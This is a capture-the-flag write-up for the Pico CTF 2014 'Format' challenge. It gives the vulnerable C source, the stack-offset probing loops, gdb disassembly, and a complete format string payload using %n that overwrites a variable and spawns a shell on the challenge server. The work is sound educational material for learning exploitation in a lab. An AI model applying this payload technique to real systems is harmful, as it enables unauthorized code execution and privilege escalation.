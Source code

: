 # Pico CTF 2014 : Format
## **[Principle]**
nc
## **[Purpose]**
Master the general process of PWN topics
## **[Environment]**
Ubuntu
## **[Tools]**
gdb、objdump、python
## **[Process]**

Here's the source code：
	
	#include <stdio.h>
	#include <stdlib.h>
	#include <fcntl.h>
	
	int secret = 0;
	
	void give_shell(){
	    gid_t gid = getegid();
	    setresgid(gid, gid, gid);
	    system("/bin/sh -i");
	}
	
	int main(int argc, char **argv){
	    int *ptr = &secret;
	    printf(argv[1]);
	
	    if (secret == 1337){
	        give_shell();
	    }
	    return 0;
	}

So we need to somehow find a way to change the value of the secret to 1337 using the format string attack because the printf () function is not implemented correctly. First, let's see what the stack looks like.
Note: in this case, the environment variables are confused with the stack, so it's helpful to use the'env -i'command to clear the environment before running the command.
	
	pico1139@shell:/home/format$ for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x;echo ;done | grep 4141
	Offset: 105:AAAA41414141

This means that we can see an offset of 105 at the top of the stack. However, when you add more data, the offset of the original input changes, so first add 1333 more bytes of data, and then look at the offset. (1337 is the secret we want, and we'll write four bytes (AAAA), so 1333 + 4 = 1337)
	
	for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x%1333u;echo ;done | grep 4141
	Offset: 103:AAAA41410074
	Offset: 104:AAAA31254141

So we discovered our A again, but they weren't on the stack. Finally, add two more A to see if you can make it stand in line.
	
	for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x%1333uAA;echo ;done | grep 41414141
	Offset: 103:AAAA41414141

Good! Our offset is 103.. Now we need to find the address used to change the data in the secret
	
	pico1139@shell:/home/format$ gdb -q format
	Reading symbols from format...(no debugging symbols found)...done.
	(gdb) disass main
	Dump of assembler code for function main:
	   0x080484e2 <+0>:	push   %ebp
	   0x080484e3 <+1>:	mov    %esp,%ebp
	   0x080484e5 <+3>:	and    $0xfffffff0,%esp
	   0x080484e8 <+6>:	sub    $0x20,%esp
	   0x080484eb <+9>:	movl   $0x804a030,0x1c(%esp)
	   0x080484f3 <+17>:	mov    0xc(%ebp),%eax
	   0x080484f6 <+20>:	add    $0x4,%eax
	   0x080484f9 <+23>:	mov    (%eax),%eax
	   0x080484fb <+25>:	mov    %eax,(%esp)
	   0x080484fe <+28>:	call   0x8048350 <printf@plt>
	   0x08048503 <+33>:	mov    0x804a030,%eax
	   0x08048508 <+38>:	cmp    $0x539,%eax
	   0x0804850d <+43>:	jne    0x8048514 <main+50>
	   0x0804850f <+45>:	call   0x80484ad <give_shell>
	   0x08048514 <+50>:	mov    $0x0,%eax
	   0x08048519 <+55>:	leave  
	   0x0804851a <+56>:	return

It appears that the address 0x0804a030 is placed in * ptr. This is what we need to replace our A address. To place the number 1337 in the secret memory address, we need to use the%n modifier. (%103 $n will look at the data located at offset 103 as the memory address and write the total number of bytes written into the address so far.)
	
	pico1139@shell:/home/format$ env -i ./format $(python -c 'print "\x30\xa0\x04\x08"+"%1333u%103$nAA"')
	$ id
	uid=11066(pico1139) gid=1008(format) groups=1017(picogroup)
	$ ls
	Makefile  flag.txt  format  format.c
	$ cat flag.txt
	xctf{XXXXXX}


## **[Summary]**
Master the general idea of doing the PWN topic, learn to find and modify shellcode.